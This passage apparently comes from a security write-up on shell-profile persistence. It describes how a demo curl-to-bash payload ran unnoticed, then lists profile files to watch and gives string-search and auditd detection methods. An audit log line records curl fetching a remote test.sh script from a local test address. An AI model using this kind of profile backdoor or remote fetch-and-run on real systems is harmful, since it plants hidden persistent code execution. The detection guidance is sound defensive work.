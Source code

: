 - No trace of `test.sh` in `/dev/shm/`
- Aside from the obvious `gnome-calculator` window, the terminal window has full focus and did not print any errors or messages
- `ps axjf` shows `gnome-calculator` spawned as though you ran it yourself, there's not process tree of `curl` > `/bin/bash` > `gnome-calculator`


### Detecting Modification

Hopefully this illustrates how powerful shell profiles are. It wouldn't make sense to not provide suggestions on how to detect this.

[Relevant file paths](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#shell-files):

- `/etc/profile`
- `/etc/profile.d/*`
- `/etc/bashrc`
- `/etc/bash_completion.d/*`
- `/etc/skel/*`
- `~/.bash*`
- `~/.profile`
- `~/.zshrc`
- `~/.zlogin`
- and more


**String Searching**

Regularly reviewing the (writable) files for strings such as protocol connection strings like `://` or `\\\\` can point to malicious behavior, especially in files that were recently modified that shouldn't have been.

Similarly, high-entropy or obviously encoded / obfuscated strings are indicators of suspicious activity. Conversely [low-entropy lists of words or plaintext referenced or put together by functions](https://github.com/yoda66/PythonShellcodeRedux/blob/main/words_encode.py) is another techique to "hide in plain sight". These make it hard to see an obvious backdoor just by reading the source code, but the command will be built and executed. This will appear in logs if you're monitoring for it, assuming this technique is not also wiping logs.


**auditd**

Using `auditd` you can record and find this behavior. Like Sysmon, [you'll need to configure what it records](https://github.com/straysheep-dev/setup-auditd). If you're monitoring the use of `curl`:

```bash
sudo ausearch -ts recent -c curl
```

Will show every time `curl` was executed in the last 10 minutes. If you followed along with the example then in your logs you'll find:

```
type=EXECVE msg=audit(<time>:<event-id>): argc=3 a0="curl" a1="-s" a2="http://127.0.1.1:1234/test.sh"
```
